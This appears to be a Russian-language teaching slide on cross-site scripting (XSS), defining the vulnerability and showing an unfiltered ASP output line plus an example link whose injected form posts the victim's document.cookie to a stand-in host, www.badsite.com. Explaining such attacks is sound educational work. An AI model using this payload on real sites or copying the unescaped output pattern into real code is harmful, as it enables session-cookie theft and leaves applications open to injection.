

# Межсайтовый скриптинга (XSS).
Межсайтовый скриптинг (XSS, Cross Site Scripting) – это уязвимость серверного кода, позволяющая внедрить в генерируемую скриптами на сервере HTML-страницу произвольный код путём передачи его в качестве значения нефильтруемой переменной.
Под «нефильтруемой» переменной подразумевается переменная, которая перед её использованием в скрипте не проверяется на наличие запретных символов, таких, как: <,>,’,” и многих других.
Response.Write(Request.QueryString(“name”));

Например:
<a href=http://www.contoso.com/req.asp?name=
<FORM action=http://www.badsite.com/data.asp method=post id=”badForm”>
<input name=”cookie” type=”hidden”>
</FORM> <SRIPT>
badForm.cookie.value=document.cookie;
badForm.submit();
</SCRIPT> > Щелкни здесь! </a>.